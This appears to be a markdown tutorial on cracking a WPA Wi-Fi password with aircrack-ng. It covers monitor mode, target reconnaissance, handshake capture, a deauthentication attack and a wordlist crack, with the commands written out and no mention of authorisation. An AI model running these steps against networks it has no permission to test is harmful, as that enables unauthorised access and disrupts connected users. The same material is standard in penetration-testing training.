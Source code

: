 # Set the WI-Fi card into monitor mode

First kill all OS based network interference:

> \# airmon-ng check kill

**NOTE**: This may not be strictly required abut this will kill all networking on the hacking device. Doing this step will decrease the likelihood of interference from other processes.

Next step is to see what wireless devices we have available

> \# airmon-ng

Take note of the interface name. We will use this with the next  command.

> \# airmon-ng start \<interfaceName>

This will change the device name. In short it will append mon to the end of the device nome. This will be shortened to \<mon0> for the remainder of this writeup, but needs to be the full name when entered on the command line

**NOTE**: If you want to restore this to normal operation stop the monitor version of the interface

> \# airmon-ng stop \<mon0>

# Monitor the local Wi-Fi Landscape

Use the following command to identify local base stations.

> \# airodump-ng \<mon0>

Identify the station that we want to attack. This can be done by its ESSID if the SSID is known / broadcasting.

Once the network is identified stop the capture with ctrl+c and record the BSSID and Channel.

The BSSID is the MAC Address of the target base station. The BSSID will take the form 1A:2B:3D:4E:5F:6G. Save this for future steps This will be shortened to \<apBSSID> for future commands. 

We also need to record what channel the station is communicating on. This value will be indicated with \<ch> in future commands.

# Capture the WPA Handshake

The following command will monitor a base station for a handshake to occur.

> \# airodump-ng -c \<ch> --bssid \<apBSSID> -w WPAcrack \<mon0> --ignore-negative-one

A handshake happens every so often if patent. This is due to Wi-Fi requiring reauthorization periodically from its clients.

If we are not patient, we can force a deauth / reauth. While this speeds things up, it also is a noisy attack. Up until now we have simply been listening, and in theory no one should know we are here. Performing the deauth will inject packets into the datastream and someone who knows what to look for will know what is happening.

While monitoring for a handshake connected clients should pop up in the window as traffic is sent. Collect the Station address and use it in the following command. Station address will be referenced as \<stBSSID>.

To deauth a target:

> \# aireplay-ng --deauth 100 -a \<apBSSID> -c \<stBSSID> \<mon0> --ignore-negative-one

Regardles of wether the deaith attack was sent or not, once the banner WPA handshake 00:11:22:33:44:55 appears at the top of the monitoring terminal stop the monitoring process.

# Break the Wi-Fi Password

Using aircrack-ng we will now attempt to identify the password. We will need a wordlist such as rockyou.txt, but anywordlist will work (Assuming the password is in the list somewhere!)

> \# aircrack-ng -w \<wordList> -b \<apBSSID> \<capturedCrackFile (WPAcrack.cap)>

From:
https://www.shellhacks.com/how-to-use-aircrack-ng-wifi-password-hacker-tutorial/

https://www.aircrack-ng.org/doku.php?id=cracking_wpa